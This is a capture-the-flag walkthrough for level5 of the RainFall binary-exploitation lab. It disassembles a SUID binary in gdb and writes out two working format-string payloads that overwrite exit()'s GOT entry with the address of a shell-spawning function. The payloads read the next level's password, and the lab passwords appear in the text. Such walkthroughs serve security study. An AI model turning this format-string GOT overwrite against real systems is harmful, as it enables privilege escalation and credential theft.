Login as `level5`.
```shell
┌──$ [~/42/2022/rainfall]
└─>  ssh 192.168.1.28 -p 4242 -l level5
level5@192.168.1.28's password: 0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level5/level5
```
A `SUID` executable is located in the home directory.
```shell
level5@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level6 users 5385 Mar  6  2016 level5
```
Examine all defined functions.
```gdb
(gdb) info functions
[...]
0x080484a4  o
0x080484c2  n
0x08048504  main
[...]
```
`o()` function execute systemcall running a shell.
```gdb
(gdb) disassemble o
Dump of assembler code for function o:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x18,%esp
   0x080484aa <+6>:	movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	movl   $0x1,(%esp)
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
```
`n()` function gets user input, print it and exit with exit code 1. Obviously the address of `exit()` should be overwritten with address of `o()`.
```gdb
(gdb) disassemble n
   [...]
   0x080484f8 <+54>:	movl   $0x1,(%esp)
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
```
As described in level4, there are two method to write arbitrary data to potentially carefully-selected address - overwrite `exit()`'s address by `o()`'s address.
```shell
level5@RainFall:~$ (python -c 'print "\x38\x98\x04\x08" + "%0134513824x%4$n"'; echo "cat /home/user/level6/.pass") | ./level5
000000000000000000000000000000000000000000000000000000000000000[...]000000000000000000000000000000000000000200
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
Addresses of functions:
```
exit() = 0x08049838
   o() = 0x080484a4
```
The process of calculating values to write
```
4 0xa4 164 > 4+4+4+4+x             = 164 (0xa4)  x=148
3 0x84 132 > 4+4+4+4+148+x         = 388 (0x184) x=224
2 0x04   4 > 4+4+4+4+148+224+x     = 516 (0x204) x=128
1 0x08   8 > 4+4+4+4+148+224+128+x = 520 (0x208) x=4
```

Exploit and log on to the next level.
```shell
level5@RainFall:~$ (python -c 'print "\x38\x98\x04\x08" + "\x39\x98\x04\x08" + "\x3a\x98\x04\x08" + "\x3b\x98\x04\x08" + "%148hhx%4$n"+ "%224hhx%5$n" + "%128hhx%6$n" + "%4hhx%7$n"'; echo "cat /home/user/level6/.pass") | ./level5
89:;                                                                                                                                                   0                                                                                                                                                                                                                              c0                                                                                                                              d0  38
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
